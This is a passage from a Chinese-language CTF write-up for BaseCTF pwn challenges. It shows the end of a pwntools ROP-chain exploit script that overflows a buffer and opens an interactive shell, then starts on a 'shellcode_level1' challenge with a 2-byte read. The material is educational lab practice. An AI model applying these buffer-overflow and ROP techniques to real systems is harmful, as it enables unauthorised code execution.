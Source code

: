 ```
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000401ce4) # syscall
payload=b'a'*(0x20+8)+p #到这里，填充垃圾数据要自己填充
io.recv()
io.sendline(payload)
io.interactive()
```
 
### 5. [Week2] shellcode_level1

这道题主要是看汇编语言的功底了。

ida看伪代码如下:

<div align=center><img src="../images/2024/09/03/BaseCTF2_Pwn/pwn21.png" alt="pwn" border="0" width="60%" height="80%"></div>

read(0,buf.2ull)只能发送2字节的数据，不足以发送shellcode。这里后面还有一个指针跳转。

看看汇编代码具体是怎么写的：
